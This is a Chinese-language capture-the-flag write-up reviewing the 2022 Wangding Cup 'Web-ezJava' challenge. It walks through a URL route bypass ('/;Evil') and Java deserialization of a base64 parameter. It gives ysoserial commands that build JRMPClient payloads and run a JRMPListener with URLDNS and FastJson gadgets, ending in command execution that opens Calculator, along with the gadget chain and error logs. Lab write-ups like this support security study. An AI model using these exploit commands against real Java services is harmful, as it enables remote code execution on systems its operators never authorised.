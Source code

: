 ```yaml
---
layout: about
category: about
toc: true
wrench: 2022-11-29
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-ezJava]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-ezJava-Walkthrough/
desc: 「CTF」
---
```



## Web-ezJava赛题复盘

### 路由绕过

payload `http://localhost/;Evil` 绕过 `if (path.startsWith("/Evil"))`

{%highlight java%}
@ResponseBody
@RequestMapping({"/Evil"})
public String Evil(HttpServletRequest request, HttpServletResponse response) throws IOException, ClassNotFoundException {
String path = request.getRequestURI();
if (path.startsWith("/Evil"))
return "nonono!!!";
String base = request.getParameter("base");
EInputStream in = new EInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
Object a = in.readObject();
return "OK";
}
{% endhighlight %}

### EInputStream

```java
EInputStream in = new EInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
```

我们可以看到路由下base64解码了`base`参数，并传给了`EInputStream`，而我们本地调试修改成`ObjectInputStream`[^1]：

```java
ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
```

可以直接RCE：

![2022-11-05-22.43.24.png](https://image.yjs2635.xyz/images/2022/11/05/2022-11-05-22.43.24.png)

所以可以看到,有很明显的反序列化的地方，不过需要做一些绕过，通过重写`ObjectInputStream::resolveClass`方法来实现的[^2]；

### Gadget

#### URLDNS

使用`URLDNS Gadget`测试一下：

```bash
java -jar ysoserial.jar JRMPClient "localhost:1099"|base64
```

```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 URLDNS "http://dnslog"
```

攻击成功：

![2022-11-05-21.34.54.png](https://image.yjs2635.xyz/images/2022/11/05/2022-11-05-21.34.54.png)

More video info for above:

{% include extensions/dual-player.html id_y='xtwn9UzAzxE' id_b='BV1gG4y1Z7RZ' %}

#### RCE

所以为了RCE去查看了lib，本地服务没有可以直接调用的Gadget，尝试一些`cc Gadget`发现报错：

```console
ERROR 1 --- [nio-8080-exec-9] o.a.c.c.C.[.[.[/].[dispatcherServlet]    : Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is java.lang.IllegalArgumentException: Illegal base64 character 20] with root cause

java.lang.IllegalArgumentException: Illegal base64 character 20
	at java.util.Base64$Decoder.decode0(Base64.java:714) ~[na:1.8.0_171]
···
···
	at java.lang.Thread.run(Thread.java:748) [na:1.8.0_171]
```

### 解法

我们回头看依赖：

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.48</version>
</dependency>
```

找到教程说是通过FastJson进行二次反序列化[^3]

#### add payload

- error

```console
[ERROR] /Users/bin4xin/.../FastJson.java:[3,27] 错误: 程序包com.alibaba.fastjson不存在
```

添加jar到本地仓库

```bash
mvn install:install-file -Dfile=/Users/bin4xin/path/to/fastjson-1.2.48.jar -DgroupId=com.alibaba -DartifactId=fastjson -Dversion=1.2.48 -Dpackaging=jar
```

```console
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar                                   
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
     ···
     FastJson                                                                                                                                                                                                                                                                
     ···                                                                                                                                                                                                                        
     JRMPClient_bypass_jep_jdk241 
```

#### exp

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient_bypass_jep_jdk241 "127.0.0.1:1099"|base64
```

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 FastJson "open /System/Applications/Calculator.app"
```

调用：

```console
javax.management.BadAttributeValueExpException#readObject
com.alibaba.fastjson.JSON#toJSONString
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
```

报错：

```console
Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is java.lang.IllegalArgumentException: Illegal base64 character 20] with root cause

java.lang.IllegalArgumentException: Illegal base64 character 20
        at java.util.Base64$Decoder.decode0(Base64.java:714) ~[na:1.8.0_181]
```

解决：

![2022-11-28-22.33.00.png](https://image.yjs2635.xyz/images/2022/11/28/2022-11-28-22.33.00.png)

成功：

![2022-11-28-22.20.37.png](https://image.yjs2635.xyz/images/2022/11/28/2022-11-28-22.20.37.png)


## REF

[^1]: [EasySpringMVC（java反序列化）](https://guokeya.github.io/post/krTn36zK9/){:target="_blank"}
[^2]: [JRMP安全问题分析-从CVE到CTF](https://xz.aliyun.com/t/5392){:target="_blank"}
[^3]: [java二次反序列化初探](http://www.bmth666.cn/bmth_blog/2022/09/20/java%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%9D%E6%8E%A2/#2022%E7%BD%91%E9%BC%8E%E6%9D%AF-%E7%8E%84%E6%AD%A6%E7%BB%84-ezjava){:target="_blank"}

以上，完结。